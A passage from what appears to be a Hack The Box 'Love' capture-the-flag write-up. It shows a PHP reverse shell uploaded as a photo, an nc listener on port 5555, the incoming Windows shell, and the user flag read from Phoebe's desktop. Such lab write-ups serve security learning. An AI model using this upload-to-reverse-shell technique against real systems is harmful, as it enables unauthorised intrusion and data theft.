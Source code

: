 ![new.JPG](images/new.JPG)

Let's upload php reverse shell as photo (was created by [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)).

Listen to port 5555 to get reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Love]
└──╼ $ nc -lvp 5555
listening on [any] 5555 ...
```

Click on "Save" and we pop shell:
```console
connect to [10.10.14.14] from staging.love.htb [10.10.10.239] 49987
SOCKET: Shell has connected! PID: 1300
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\>type C:\Users\Phoebe\Desktop\user.txt
b484f1446644ce5b6abad2c8977e801a
```

And we get user flag ```b484f1446644ce5b6abad2c8977e801a```.

